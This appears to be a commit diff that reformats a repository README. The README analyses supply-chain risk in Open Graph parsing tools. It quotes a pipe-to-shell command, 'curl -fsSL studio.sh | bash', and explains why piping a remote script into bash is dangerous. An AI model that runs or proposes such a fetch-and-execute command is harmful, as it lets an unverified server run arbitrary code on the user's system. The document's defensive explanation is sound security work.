

Before and after one commit to qapdex-maker/opengraph-node, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Fix formatting and wording in README.md

```diff
--- a/README.md
+++ b/README.md
@@ -10,7 +10,7 @@ The Open Graph Protocol enables websites to act as rich objects in social and co
 - The Inherent Risk
 Since parsers must process external, untrusted HTML content, they constitute a critical interface. If the Node/PHP libraries used for processing are insufficiently isolated or contain manipulated installation routines, the parsing tool mutates into the primary entry point for supply chain attacks.
 
-The analysis of the ecosystem surrounding the components under qapdex-maker.github.io/opengraph-node/ shows a critical vulnerability in the deployment and installation phase:
+The analysis of the components under qapdex-maker.github.io/opengraph-node/ shows a critical vulnerability in the deployment and installation phase:
 
 ### 3. Structure of the Investigation Folder
 The test environment includes several validation pages:
@@ -26,9 +26,10 @@ curl -fsSL studio.sh | bash
 
 
 Security analysis of this pattern
-Unencrypted/Unverified Execution: The direct piping of a remote resource into the shell (bash) bypasses local security policies.
+- Unencrypted/Unverified Execution:
+The direct piping of a remote resource into the shell (bash) bypasses local security policies.
 
-Dynamic Payload Generation: The server behind studio.sh can inject malicious code based on the User-Agent or IP address of the requesting system (e.g., a CI/CD pipeline), which remains undetected during static code analysis.
+- Dynamic Payload Generation: The server behind studio.sh can inject malicious code based on the User-Agent or IP address of the requesting system (e.g., a CI/CD pipeline), which remains undetected during static code analysis.
 
 ### 4. Threat Modeling
 Based on the Meta-Bug Taxonomy and Invisible Attack Surface Mapping, the attack vector can be classified as follows:
```
